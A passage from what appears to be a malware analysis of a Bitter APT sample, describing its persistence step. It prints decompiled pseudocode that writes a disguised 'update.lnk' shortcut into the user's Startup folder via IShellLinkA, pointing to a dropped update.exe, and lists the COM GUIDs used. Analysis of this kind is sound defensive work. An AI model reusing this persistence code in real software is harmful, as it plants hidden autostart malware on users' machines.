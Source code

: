 #### Persistence

To establish persistence, it will create the LNK file *%UserProfile%\Start Menu\Programs\Startup\update.LNK*, which points to *%UserProfile%\AppData\Local\Updates\update.exe*.

```cpp
HRESULT Persistence(void){
  /*
  Bitter APT Persistence Function
  */
  HRESULT hResult;
  char cStartupPathLNK [250];

  CoInitialize((LPVOID)NULL);
  Sleep(1000);
  cStartupPathLNK._0_2_ = 0;
  memset(cStartupPathLNK + 2,0,248);
  hResult = SHGetFolderPathA(
	  (HWND)NULL,
	  CSIDL_STARTUP,
	  (HANDLE)NULL,
	  NULL,
	  cStartupPathLNK);
  if (hResult == 0) {
                    /* %StartUp%\\update.lnk */
    strcat_s(cStartupPathLNK,250,"\\");
    strcat_s(cStartupPathLNK,250,s_update_00406bb8);
    strcat_s(cStartupPathLNK,250,".");
    strcat_s(cStartupPathLNK,250,"l");
    strcat_s(cStartupPathLNK,250,"n");
    strcat_s(cStartupPathLNK,250,"k");
    hResult = CreateStartupLNK(cStartupPathLNK);
  }
  CoUninitialize();
  return hResult;
}
```

The *CreateStartupLNK* function, shown above, uses the COM Interface *Shortcut->IShellLinkA*. This corresponds to the following COM GUIDs.

| GUID                                 | Type        | Name        |
| ------------------------------------ | ----------- | ----------- |
| 00021401-0000-0000-c000-000000000046 | CLSID       | Shortcut    |
| 000214EE-0000-0000-C000-000000000046 | InterfaceID | [IShellLinkA](https://docs.microsoft.com/en-us/windows/win32/api/shobjidl_core/nn-shobjidl_core-ishelllinka) |

It will also set the LNK comment to *App*.

```cpp
hResult = CoCreateInstance(
	(IID *)&00021401-0000-0000-c000-000000000046,
	(LPUNKNOWN)NULL,
	1,
    (IID *)&000214EE-0000-0000-C000-000000000046,
    &ppv);
if (-1 < hResult) {
	pszFile = (LPCSTR)pszFileCheck;
	iLength = lstrlenA(&PATH);
	rLength = iLength + 1;
	LocalRealloc(&pszFile,pszFileCheck,rLength);
	eError = memcpy_s(pszFile,rLength,&PATH,rLength);
	ExceptionHandler(eError);
	(*ppv->lpVtbl->SetPath)(ppv,pszFile);
	// ...
```
